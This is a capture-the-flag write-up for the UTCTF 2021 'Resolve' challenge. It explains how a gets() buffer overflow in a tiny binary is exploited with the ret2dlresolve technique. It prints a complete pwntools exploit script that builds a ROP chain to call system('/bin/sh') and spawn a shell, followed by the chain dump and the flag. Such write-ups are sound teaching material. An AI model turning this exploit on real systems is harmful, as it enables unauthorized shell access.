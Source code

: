 ```yaml
---
layout: post
title: [UTCTF 2021] Resolve
author: Kevin Zhang
---
```


We are given a very barebones binary that looks like this:

```
int main(void)

{
  char local_10 [8];
  
  gets(local_10);
  return 0;
}

```
Now the vulnerability is a classic buffer overflow but the problem is that this is all there is in the binary. There isn't any libc addresses in the stack or in any of the registers when we return. Since we can't find an address leak that means we can't just find the address of `system()` and create a rop chain using that. After some digging I was able to find that the attack is called a ret2dlresolve. Here is a blog with more info about that: https://ypl.coffee/dl-resolve/  

Now what we could do is write a ret2dlresolve payload by hand such as the one [here]. No thanks. Fortunately, pwntools has a ret2dlsresolve module that will automatically generate the payloads for you. So our payload ends up being something like this:

```
from pwntools import *
context.binary = elf = ELF('resolve')
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])

# Allows us to write to any location. We want to write to where the dlresolve payload will be
rop.gets(dlresolve.data_addr)

# RET gadget for stack alignment.
rop.raw(0x00401159) 

# The dlresolve payload
rop.ret2dlresolve(dlresolve)

# Put it together
raw_rop = rop.chain()

p = elf.process()

# First gets() to setup the rop chain to write to the correct address
p.sendline(fit({8+context.bytes: raw_rop})) 

# Second gets() to send the dlresolve payload.
p.sendline(dlresolve.payload) 
p.interactive()
```

The rop chain looks something like this:

```
0x0000:         0x4011c3 pop rdi; ret                                                                                   0x0008:         0x404e00 [arg0] rdi = 4214272                                                                           0x0010:         0x401044 gets                                                                                           0x0018:         0x401159                                                                                                0x0020:         0x4011c3 pop rdi; ret                                                                                   0x0028:         0x404e50 [arg0] rdi = 4214352                                                                           0x0030:         0x401020 [plt_init] system                                                                              0x0038:            0x310 [dlresolve index]
```

So just aim this at the server and ye shall receive the flag.  
`utflag{2_linker_problems_in_one_ctf?8079235}`  

It's pretty cool that we can still call libc functions without the use of address leaks. This exploit will definitely be something that I keep in mind for the future. Although it was really simple for this challenge due to no PIE which probably simplified where we could put the dlpayload.



[here]: (https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)